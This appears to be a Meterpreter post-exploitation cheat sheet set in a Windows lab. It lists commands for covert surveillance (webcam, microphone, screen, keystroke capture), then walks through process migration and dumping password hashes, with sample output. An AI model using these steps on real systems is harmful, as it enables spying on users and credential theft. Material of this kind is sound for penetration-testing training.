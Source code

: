 
### 🔹 Monitoring & Surveillance
- `screenshare` → Watch live desktop  
- `screenshot` → Capture desktop  
- `record_mic -d 10` → Record 10 sec from microphone  
- `webcam_snap` → Take webcam picture  
- `keyscan_start` / `keyscan_dump` / `keyscan_stop` → Capture keystrokes  

---

## 🔥 Post-Exploitation Workflow (with Examples)

1. **Identify User Context**
   ```bash
   meterpreter > getuid
   Server username: WIN-LAB\victim
```

→ Confirms what privileges we have. If it’s not SYSTEM, attempt privilege escalation.

---

2. **Process Enumeration**
    
    ```bash
    meterpreter > ps
    PID   Name              Arch  Session  User
    1120  explorer.exe      x64   1        WIN-LAB\victim
    1337  lsass.exe         x64   0        NT AUTHORITY\SYSTEM
    ```
    
    → Shows running processes. Target `explorer.exe` for stability or `lsass.exe` for creds.
    

---

3. **Migrate to Stable Process**
    
    ```bash
    meterpreter > migrate 1120
    [*] Migrating from 1050 to 1120...
    [*] Migration completed successfully.
    ```
    
    → Moves Meterpreter to `explorer.exe` to avoid crashes.
    

---

4. **Dump Password Hashes**
    
    ```bash
    meterpreter > hashdump
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    victim:1000:aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c:::
    ```
    